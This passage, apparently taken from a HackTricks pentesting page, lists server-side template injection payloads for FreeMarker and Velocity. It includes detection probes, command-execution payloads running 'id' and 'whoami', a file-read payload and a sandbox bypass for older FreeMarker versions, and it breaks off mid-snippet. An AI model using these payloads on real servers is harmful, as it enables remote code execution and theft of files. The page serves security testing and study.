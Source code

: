### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#freemarker-java)

FreeMarker (Java)

You can try your payloads at [https://try.freemarker.apache.org](https://try.freemarker.apache.org/)

- `{{7*7}} = {{7*7}}`
 
- `${7*7} = 49`
 
- `#{7*7} = 49 -- (legacy)`
 
- `${7*'7'} Nothing`
 
- `${foobar}`
 



```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}

${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

**Freemarker - Sandbox bypass**

âš ï¸ only works on Freemarker versions below 2.3.30



```
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

**More information**

- In FreeMarker section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
 
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker)
 

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#velocity-java)

Velocity (Java)



```
// I think this doesn't work
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end

// This should work?
#set($s="")
#set($stringClass=$s.getClass())
```